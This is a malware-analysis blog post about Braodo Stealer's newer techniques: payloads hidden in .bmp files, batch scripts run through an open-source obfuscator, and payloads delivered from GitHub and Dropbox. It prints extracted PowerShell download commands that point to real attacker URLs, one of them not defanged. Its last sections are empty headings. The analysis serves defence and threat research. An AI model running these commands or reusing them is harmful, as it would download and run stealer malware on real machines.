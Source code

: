 ```yaml
---
title:  "Fresh Infections Of Braodo Stealer With Updated Techniques"
layout: post
categories: malware-analysis
---
```


## Contents

- Background.
- Technical Analysis.
    - Abusing .bmp file format.
    - Encoding and Obfuscation.
    - Abusing Dropbox services.
- Conclusion.

## Background


Hi readers, hope you enjoyed my last blog on Braodo Stealer, as a newbie and as I'm just getting started I have decided to track the same, so recently I found that Braodo Stealer is back with a bunch of changes on their arsenal , which includes adding Base64 encoding along with renaming variable names and then abusing an open source obfuscator known as Abobas-Obfuscator. Well, the last but not the least that's using different file formats like .bmp and abusing Dropbox services for payload delivery.

## Technical Analysis.

In this phase, we will know different methods that this stealer uses to download the payload and run the malware code in the system


### Abusing .bmp file format.

One of the recent developments of Braodo Stealer's arsenal has been abusing bmp format for initial infections.

![image](https://github.com/user-attachments/assets/eb044983-e72d-46d3-a6a1-2701f87ea7f7)


So, we can see that there is encoded garbage blob present inside the bmp payload and the actual script which is responsible for downloading the final payload from Github which is exactly the same just like the previous campaigns with just different Github accounts downloading the final Python script.

### Encoding and obfuscation.

Another interesting development among stealer arsenal, that it has been using an open source obfuscator,known as abobus obfuscator.we found the name of the obfuscator as it is present in one of the sample.

![image](https://github.com/user-attachments/assets/0d2dae90-19d0-4d1d-b143-6ae11d6843ee)

the way this obfuscator works is by adding garbage values to the batch script then performing character encoding and by changing the cases of the alphabets in a random manner. The way the sample deobfuscates and runs in memory is by changing the code page by using chcp windows utility and chnaging the code page to english which further faciliates the execution of the malicious batch script which downloads the zip payload from either dropbox or github. As this is an open source obfuscator it was quite easy to understand and perform the deobfuscation.

the extracted config is as follows:

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("hxxps://github.com/LoneNone1807/abcxyz/raw/main/abcxyz.zip", "C:\\Users\\Public\\25350.zip")

```
 
### Abusing Dropbox services.

as we know that the primary technique of braodo stealer is to store the final payload over github, but recently in one of the campaign which was obfuscated with abobus obfuscator was dropping a document as a lure . The document was mainly focused on online marketing of shooes. 


![image](https://github.com/user-attachments/assets/7a8ed849-736e-4b87-92aa-3f92b0f4ca36)

So , post the lure did open on the screen, i deobfuscated and found out that this campaign is using dropbox services to download the payload and also adding a registry key as persistance. the extracted configs are as follows:

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("hxxps://www.dropbox.com/scl/fi/mkx2tii0ud0i6ugpbbjh6/Product_Marketing_and_Brand_Marketing_Campaigns0909.docx?rlkey=4gqc2cpjo6kp5iltdjevlbxzv&st=50y5pfp4&dl=1", "C:\\Users\\Admin\\AppData\\Local\\Temp\\\\Product_Marketing_and_Brand_Marketing_Campaigns0909.docx")
```

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("https://www.dropbox.com/scl/fi/0qh04if44j5q056ehruij/tn0909.zip?rlkey=f9zmunjbhjdmsuh7by9bp4wf1&st=ffsvc7c8&dl=1", "C:\\Users\\Public\\Document.zip")
```

### Abusing whl package

## Conclusion.



